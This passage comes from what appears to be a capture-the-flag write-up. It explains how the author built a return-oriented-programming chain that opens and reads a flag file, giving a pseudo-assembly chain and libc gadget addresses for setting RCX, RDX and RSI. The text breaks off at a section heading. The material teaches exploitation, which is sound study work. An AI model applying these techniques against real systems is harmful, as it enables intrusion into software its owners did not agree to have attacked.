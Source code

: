 This is at `cuserid+243`, the one catch is that `RCX` needs to be greater than `RDX` or this won't work. As it jumps away and does some garbage, then crashes. Since `RDX` is near our chain, the only way I could figure this out a way to set `RCX` higher was another `syscall`.

So the full chain for `open` becomes:

```assembly
set rsi to flag mem
write function , sets rcx higher than rdx
mov rax, 1
mov rdi, rax
syscall func, mov rdi, rsi
set rsi to flag
and esi, 0x200, zero rsi
mov rax, 1
add rax, 1
sub rcx, rax; resets rax
mov rax, 1
add rax, 1, set rax to open
push rcx; ret
```

 Not too shabby!

## Read problems

For the read syscall, we can't just call the `read` function as `RDX` will be a large value and you wouldn't guess it but, read needs the third argument to be around 0x1000 as a max. So we need a way to set `RDX` and call syscall, this turned into a huge headache, but eventually I was able to think of a solution.

If we utilize the `syscall` function we can move a value from `RCX` into `RDX`, allowing us to get a smaller value in there if we can control `RCX`. We have a rough estimate at what `RCX` equals, as we just used a syscall. So I found this gadgets to help lower make `RCX` usable:

```assembly
   0x7f9cb22b27c6 <rand_r+70>:	and    ecx,0x3ff
   0x7f9cb22b27cc <rand_r+76>:	xor    eax,ecx
   0x7f9cb22b27ce <rand_r+78>:	ret  
```

Next we need to set `RSI` to our File Descriptor, I could have just assumed 3 and worked with it but the gadgets I found let me move the value from `RAX` just as easily, by utilizing the zeroing out of `RSI` from earlier, a move from `RAX` to `RDI`, and finally the gadget below.

```assembly
   0x7f9cb22ad924:	or     esi,edi
   0x7f9cb22ad926:	movd   xmm0,esi
   0x7f9cb22ad92a:	ret    
```

This was found at `modff+0xe4`

## RDI/RAX and Read Chain
